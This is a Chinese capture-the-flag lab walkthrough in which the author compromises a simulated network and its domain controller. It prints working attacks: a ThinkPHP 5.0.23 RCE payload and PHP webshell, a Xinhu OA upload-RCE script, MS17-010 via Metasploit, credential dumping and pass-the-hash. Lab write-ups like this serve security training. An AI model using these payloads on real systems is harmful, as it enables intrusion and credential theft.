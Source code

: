 # 攻击流程

## 信息收集

![image-20231212095736357](images/1.png)

发现了thinkphp5.0.23的rce

![image-20231212100006894](images/2.png)

## GetShell

直接用payload打

![image-20231212100351356](images/3.png)

```
http://39.101.165.215/index.php?s=captcha&test=-1

 _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

写一个马

```
 _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```

![image-20231212100508714](images/4.png)

## SUID提权

连上蚁剑，目前用户是www-data，看看有没有什么方式可以提权的

![image-20231212100716140](images/5.png)

看到了mysql是不需要密码就可以root权限执行的

![image-20231212100752408](images/6.png)

```
sudo mysql -e '\! whoami'
sudo mysql -e '\! ls /root'
```

![image-20231212100856643](images/7.png)

看到了第一段的flag :`flag{60b53231-`

![image-20231212100941648](images/8.png)

接着来看内网其他机器

![image-20231212101135810](images/9.png)

看到了内网网段

## 内网信息收集和代理

上传fscan和stowoway

![image-20231212101830962](images/10.png)

fscan扫到了内网中存在另外两台机器172.22.1.21（存在ms17-010），以及172.22.1.18（信呼OA）

在VPS上收到了连接，开一个socks在7777

![image-20231212101736877](images/11.png)

## 攻击内网

### 信呼OA

配置proxifier后，直接访问，先打web

![image-20231212102435869](images/12.png)

信呼OA2.2.8，弱口令admin/admin123可以登录后台

![image-20231212102608565](images/13.png)

这个版本在后台可以上传文件RCE

```python
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
data2 = {
    "1": "system('whoami');"
}
print(url_pre + filepath)
r = session.post(url_pre + filepath, data=data2)
print(r.text)

```

![image-20231212103115770](images/14.png)

蚁剑连接一下这个，找到了flag2:	`2ce3-4813-87d4-`

![image-20231212103300911](images/15.png)

发现这是一台域内机器，域控服务器是172.22.1.2

![image-20231212103203316](images/16.png)

### MS17-010

MS17-010还是用msf打最稳定

```
proxychains4 msfconsole

也可以直接set proxies socks5:127.0.0.1:7777
```

因为目标机器不出网，payload用`bind_tcp`

![image-20231212105517238](images/17.png)

抓取用户hash

```
load kiwi
creds_all
```

![image-20231212105700552](images/18.png)

## 域内信息收集

上传`SharpHound.exe`来搜集一下域内信息

```
upload "/root/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231212112608_BloodHound.zip" "/root/"
```

然后放在bloodhound里面分析

这里不知道为什么直接导入zip会出错，但是解压后不导入第一个computer就可以

![image-20231212134800467](images/19.png)

这里可能有点问题，但是我看别人在bloodhound中可以直接看到`XIAORANG-WIN7$`这台机器有DCSync权限

这里的问题我用sharphound2.0以上不兼容旧版的bloodhound，旧版的应该用sharphound1.1

如果用2.0以上就要用bloodhound ce

![](images/QQ_1724595915236.png)

直接抓到了Administrator的hash

![image-20231212114056424](images/20.png)

用wmiexec登录

```
python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```

![image-20231212114409242](images/21.png)

拿下域控

![image-20231212114459456](images/22.png)

而且这里有krbtgt的hash，可以用来做一个黄金票据

拿到了flag3

![image-20231212114800834](images/23.png)



```
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```



参考链接

https://github.com/H3rmesk1t/Security-Learning/blob/main/Penetration/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial.md

https://www.cnblogs.com/thebeastofwar/p/17754145.html